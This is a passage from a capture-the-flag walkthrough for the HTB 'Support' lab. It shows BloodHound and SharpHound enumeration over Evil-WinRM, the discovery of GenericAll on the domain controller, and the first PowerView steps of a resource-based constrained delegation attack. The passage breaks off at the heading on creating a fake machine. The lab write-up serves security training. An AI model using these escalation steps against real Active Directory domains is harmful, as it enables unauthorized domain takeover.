 ```bash
sudo neo4j start
./BloodHound-linux-x64/BloodHound
```

### Data Collection

In Evil-WinRM:

```powershell
cd C:\Windows\Temp
upload SharpHound.exe
.\SharpHound.exe
download *.zip
```

Import into BloodHound and mark SUPPORT@SUPPORT.HTB as "Owned".

### Analysis Result

<div class="bg-red-50 dark:bg-red-900/20 p-6 rounded-xl border-l-4 border-red-500 my-4">
    <h4 class="text-xl font-bold text-red-600 dark:text-red-400 mb-3 flex items-center">
        <i class="fas fa-crown mr-2"></i>Critical Privilege Discovered
    </h4>
    <p class="text-gray-700 dark:text-gray-300 mb-2">
        The <strong>Shared Support Accounts</strong> group has <span class="text-highlight-red">GenericAll</span> on the domain controller DC.SUPPORT.HTB
    </p>
    <p class="text-sm text-gray-600 dark:text-gray-400">
        This permission allows an RBCD (Resource-Based Constrained Delegation) attack to obtain a SYSTEM shell.
    </p>
</div>


## ⚙️ Phase 9 — RBCD Exploitation

### Check Machine Quota

```powershell
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```

Result: 10 (any authenticated user can create up to 10 machines).

### Import PowerView

```powershell
upload PowerView.ps1
. ./PowerView.ps1
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity
```

### Create Fake Machine
